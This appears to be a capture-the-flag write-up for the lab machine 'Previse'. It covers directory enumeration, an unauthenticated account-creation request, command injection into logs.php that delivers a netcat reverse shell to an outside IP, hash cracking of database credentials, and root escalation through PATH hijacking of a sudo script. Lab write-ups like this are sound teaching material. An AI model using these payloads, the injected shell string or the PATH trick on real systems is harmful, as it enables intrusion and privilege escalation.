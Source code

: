 previse
---

## Steps

1. gobuster to discover directories and find php files

```
gobuster dir -x php -u 10.10.11.104 -w /usr/share/wordlists/dirb/common.txt


http://previse.htb/login.php            (Status: 200) [Size: 2224]
http://previse.htb/header.php           (Status: 200) [Size: 980] 
http://previse.htb/nav.php              (Status: 200) [Size: 1248]
http://previse.htb/download.php         (Status: 302) [Size: 0] [--> login.php]
http://previse.htb/index.php            (Status: 302) [Size: 2801] [--> login.php]
http://previse.htb/footer.php           (Status: 200) [Size: 217]                 
http://previse.htb/files.php            (Status: 302) [Size: 4914] [--> login.php]
http://previse.htb/css                  (Status: 301) [Size: 308] [--> http://previse.htb/css/]
http://previse.htb/status.php           (Status: 302) [Size: 2968] [--> login.php]             
http://previse.htb/js                   (Status: 301) [Size: 307] [--> http://previse.htb/js/] 
http://previse.htb/logout.php           (Status: 302) [Size: 0] [--> login.php]                
http://previse.htb/accounts.php         (Status: 302) [Size: 3994] [--> login.php]             
http://previse.htb/config.php           (Status: 200) [Size: 0]                                
http://previse.htb/logs.php             (Status: 302) [Size: 0] [--> login.php]                
http://previse.htb/server-status        (Status: 403) [Size: 276]
```

we see a few php files, most of them with status 302, which is a redirect.

2. posting a request with while disallowing redirect

looking at the account.php, we can send a post request to add an account

```
import requests

url = "http://10.10.11.104/accounts.php"

data = {
        'username':'aaaaaa',
        'password':'aaaaaa',
        'confirm':'aaaaaa'
        }

r = requests.post(url, data=data, allow_redirects=False)

print(r.text)

```

3. downloading the siteback up and reverse shell

Once we are able to login, we can download the site backup with all the files on the site. We see this file called `logs.php`, and it accepts a post request, followed by an exec with the POST variable delim

```
<?php
session_start();
if (!isset($_SESSION['user'])) {
    header('Location: login.php');
    exit;
}
?>

<?php
if (!$_SERVER['REQUEST_METHOD'] == 'POST') {
    header('Location: login.php');
    exit;
}

/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

...

```

its clear here that we can achieve RCE, and we send this request for a reverse shell. keep in mind to add in the Cookie, which will indicate you have a session that is logged in

```
import requests

url = "http://10.10.11.104/logs.php"

headers = {
       'Cookie': 'PHPSESSID=55ucih7mp2c0b9bh3fmj925k6h'
        }

shell = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 1337 >/tmp/f"

data = {
        'delim':"; " + shell
        }

r = requests.post(url, data=data, headers=headers)
```

4. MySQL db and hashcat

In the site back up, we also see a file `config.php`, which contains the database credentials.

Within our shell, we can login to MySQL locally, and extract the password

```
> mysql -u previse -p
Enter password: mySQL_p@ssw0rd!:)
select * from accounts;

id      username        password        created_at
1       m4lwhere        $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.        2021-05-27 18:18:36

```

using hashcast, we can crack the password

```
> cat $1$🧂llol$DQpmdvnb7EeuO6UaqRItf > hash

> hashcat -a 0 -m 500 hash /usr/share/wordlists/rockyou.txt
```

Using that password, we ssh into the server and get the user flag

```
ssh m4lwhere@10.10.11.104
...
cat user.txt
```

5. Root flag

Once in as the user, we see that we can execute `/opt/scripts/access_backups.sh`

upon inspection, it calls a `date` binary

```
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz

```

We can inject the binary with our own, by creating a binary and adding it to our path

```
> echo "cp /root/root.txt /home/m4lwhere/" > ~/date
> echo "chmod 777 /home/m4lwhere/root.txt" >> ~/date

> export PATH=/home/m4lwhere:$PATH

> sudo ./access_backups.sh

> cat /home/m4lwhere/root.txt

```

This way, the script searches our directory `/home/m4lwhere` for any binaries named `date`, and executes it.
